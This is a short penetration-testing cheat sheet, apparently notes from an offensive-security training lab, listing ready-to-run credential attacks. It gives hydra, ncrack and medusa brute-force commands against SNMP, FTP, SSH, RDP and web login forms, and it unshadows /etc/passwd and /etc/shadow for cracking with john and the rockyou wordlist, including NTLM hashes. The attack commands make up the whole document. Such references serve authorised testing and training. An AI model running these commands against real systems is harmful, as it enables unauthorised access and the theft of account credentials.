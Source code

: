 #### hydra

```hydra -P password-file.txt -v 10.11.1.219 snmp```

```hydra -l admin -P password-file.txt -v x.x.x.x ftp```

```hydra -l root -P password-file.txt x.x.x.x ssh```

```hydra -l admin -P /usr/share/dirb/wordlists/small.txt 192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V```
-----


#### john

*unshadow /etc/passwd /etc/shadow > /tmp/unshadowed*

```john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/unshadowed```

```john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ntlm.hash```
-----


#### rdp

```ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35```

```hydra -t 1 -l username -p password1! rdp://192.168.190.130```
-----


#### medusa

```medusa -h 10.11.1.219 -u admin -P password-file.txt -M http -m DIR:/admin -T 10```
-----